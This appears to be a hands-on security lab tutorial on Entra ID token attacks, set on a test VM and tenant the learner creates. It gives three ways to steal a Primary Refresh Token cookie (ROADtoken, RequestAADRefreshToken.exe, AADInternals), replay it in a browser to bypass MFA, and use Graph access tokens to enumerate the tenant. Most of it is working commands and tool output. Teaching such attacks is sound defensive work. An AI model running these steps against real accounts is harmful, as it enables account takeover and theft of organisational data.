 # Lab 3 - Token Attacks
### Prepare a victim user with high privileges: 
1. RDP and login to the Win11 VM using the "***YOURUSER@YOURDOMAIN.onmicrosoft.com***" "victim" user that you've created in the previous lab.
2. run ```dsregcmd /status``` and make sure you see ```AzureAdPrt : YES```
    ![prt](prtexists.png)

3. Make sure you are verified:
    1. open Edge and make sure you have your profile logged in
    2. go to Account Info and make sure you don't have any warning about not being verified, if you have then verify yourself.
        ![verifi](verifyAccount.png)
#
# Attacks
From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Win 11 VM 

#
## 1. Steal-the-PRT-Cookie 
Note: This method will bypass MFA only if the user has authenticated using MFA in its Windows

#### Option 1: Steal PRT Cookie using roadrecon tool
Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:
```powershell
# Get the nonce first
roadrecon auth --prt-init 

# Get a new PRT Cookie
.\ROADtoken.exe <nonce> 

# this will AUTOMATICALLY open a browser and log in as that user (!)
roadtx browserprtauth -url https://entra.microsoft.com --prt-cookie <eyJh... PRT COOKIE>
```

#### Option 2: Steal PRT Cookie using RequestAADRefreshToken.exe tool
Uses the MicrosoftAccountTokenProvider DLL to request a new PRT cookie.
Download and Run RequestAADRefreshToken.exe from this folder (directly from inside the VM), it will save the output on disk as well as print the tokens to the console.

Note: PRT Cookie can only be used once and its TTL is short
```
Requesting cookies for the following URIs: https://login.microsoftonline.com/
PID  : 37808

Uri: https://login.microsoftonline.com/
    Name      : x-ms-RefreshTokenCredential
    Flags     : 8256
    Data      : <...snip JWT...>; path=/; domain=login.microsoftonline.com; secure; httponly
    P3PHeader : CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"
```

#### Option 3: Steal PRT Cookie using AADInternals tool
Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:
```powershell
Import-Module AADInternals
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken
```

## Once PRT Cookie is in your possession:
1. Clear your browser cookies and go to https://myapps.microsoft.com
2. F12 (Chrome dev tools) -> Application -> Cookies
3. Delete ALL cookies and then add one named `x-ms-RefreshTokenCredential` and set its value to the JSON Web Token(JWT) in the `Data` field that RequestAADRefreshToken.exe output
4. Refresh the page (or visit https://myapps.microsoft.com again) and you'll be logged it

See demo video here

# Next Step - Reconnisance

```powershell
Import-Module AADInternals
$prtToken = Get-AADIntUserPRTToken # get a new PRT Cookie if you used it already
# using the new PRT Cookie, get an access token
# method 1:
roadtx browserprtauth --prt-cookie $prtToken # this will automatically get new access token

# method 2:
$prtToken = Get-AADIntUserPRTToken
roadrecon auth -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2" --prt-cookie $prtToken 

# method 3:
$at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
roadrecon auth --access-token $at # AT for msgraph is needed

# Once you got an access token, look at it
type .roadtools_auth
type .roadtools_auth | roadtx describe

# start the recon on the tenant
roadrecon gather

roadrecon gui


# bonus 2: search for the client_id here to see to what it has asked At for: https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

```

#### Continue your exploration via API...

You can start with:
```powershell
$prtToken = Get-AADIntUserPRTToken
$at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser

# Or via AAD Graph:
$client_id = "1b730954-1685-4b74-9bfd-dac224a7b894" 
$prtToken = Get-AADIntUserPRTToken
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id, see here for more https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

Get-AzureADUser
```

